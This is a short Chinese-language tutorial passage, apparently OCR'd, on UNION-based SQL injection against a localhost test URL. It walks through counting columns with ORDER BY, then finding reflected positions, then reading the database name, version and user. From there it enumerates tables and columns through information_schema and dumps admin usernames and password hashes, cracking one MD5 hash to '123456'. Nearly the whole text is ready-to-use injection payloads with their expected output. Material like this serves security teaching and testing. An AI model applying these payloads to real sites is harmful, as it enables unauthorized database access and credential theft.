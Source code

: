 union 联合查询，将多个查询结果合并成一个结果

order by int 查询该表字段个数

```shell
http://localhost/?id=1 order by [1~∞]
//假设判断出4个字段
```

根据查询到表字段个数来写 union select

```shell
http://localhost/?id=1 union select 1，2，3，4

// 回显 2，3，4
```

根据回显位置来设计后续的注入语句

##### 查询当前数据库，版本号，以及用户名

```sql
http://localhost/?id=1 union select 1,database(),version(),user()

//回显 data_name,v6666666666,root@localhost
```

##### 查询表名

```sql
http://localhost/?id=1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()

 -- 回显 1，"users，admin"，3，4
```

##### 查询admin表的字段名

```sql
http://localhost/?id= 1 union select 1,group_concat(columns_name),3,4 from information_schema.columns where table_name = 'admin'
0' union select 1,group_concat(column_name),database() from information_schema.columns where table_schema=database() and table_name='users' 

-- 回显 1,"user,password,mobile",3,4
```

##### 查询账号密码

```sql
http://localhost/?id=1 union select 1,user,password,mobile from admin

--回显 1,admin,e10adc3949ba59abbe56e057f20f883e,177xxxxxxxx

密码解密为:123456
```

#### 布尔盲注(Boolean)
